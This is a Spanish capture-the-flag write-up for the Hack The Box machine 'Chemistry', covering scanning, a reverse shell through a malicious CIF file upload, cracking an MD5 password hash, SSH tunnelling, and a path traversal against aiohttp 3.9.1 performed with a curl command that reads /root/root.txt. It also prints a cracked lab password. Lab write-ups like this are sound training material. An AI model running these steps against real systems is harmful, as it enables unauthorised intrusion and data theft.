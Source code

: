 **Conectarse a la VPN de HTB**  
`sudo openvpn --config Desktop/lab_a21josperjim.ovpn`  

![VPN config](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241122153549.png)  

**Escaneo de puertos abiertos**  
`nmap -sT -Pn 10.10.11.38`

![Nmap scan](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241122153515.png)  

**Sacar información de los puertos abiertos**  
`nmap -sT -sV -vvv -p 22,5000 -Pn 10.10.11.38` *(solo puertos abiertos)*

![Nmap detailed scan](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241122153619.png)  

**Probamos la IP con el puerto 5000 en el navegador**

![Web page](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241122160118.png)  

Nos permite registrarnos. Tras acceder, hay un dashboard:

![Dashboard](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241122164202.png)  
*Permite subir archivos CIF (Crystallographic Information File).*  

**Explotación de vulnerabilidad en archivos CIF**  
Buscando información, encontramos que estos archivos pueden permitir una *reverse shell*. El archivo a subir es: [Chemistry HTB RS](#).  

**Reverse Shell obtenida**

![Reverse shell](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125160908.png)  

**Exploración de directorios**  
Usamos `ls | grep -P '^[\w\s\.\-\(\)]+$'` para filtrar nombres legibles: 

![Directories](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125161252.png)  

**Base de datos en `/instance`**  
Encontramos hashes de contraseñas:  

![Database](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125161513.png) 

![Hashes](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125161712.png)  

**Descifrado de hash (MD5)**  
Usando herramientas como CrackStation, obtenemos la contraseña: `unicorniosrosados`.  

![Hash cracked](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125161933.png)  

**Acceso al usuario `rosa` y primera flag**  

![User access](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125162037.png) 

![First flag](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125162058.png)  

**Conexión por SSH**  

![SSH login](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241125162814.png)  

**Escaneo de vulnerabilidades con `linpeas.sh`** 

![LinPEAS scan](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127184141.png)  
*Se detectó una vulnerabilidad en la versión del sistema.*  

**Intento de explotación (sin éxito)**  

![Exploit attempt](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127184305.png)
![Exploit attempt](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127184402.png)
![Exploit attempt](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127184654.png)
![Exploit attempt](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127184828.png)

**Puerto 8080 accesible localmente**  

![Local port scan](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127185034.png)  

**Tunel inverso para inspeccionar el servicio**  
`ssh -L 2000:localhost:8080 rosa@10.10.11.38`  

![Tunnel setup](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127190008.png)  

**Vulnerabilidad de *Path Traversal* en `aiohtto/3.9.1`**  
Permite navegar por directorios con `../`:  

![Path traversal](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127191035.png)  

**Explotación con `curl`**  
Usamos:  
`curl -s --path-as-is http://localhost:8080/assets/../../../../root/root.txt`
![root](https://github.com/jose75213/write-up/tree/main/Images/Pasted%20image%2020241127193354.png)  


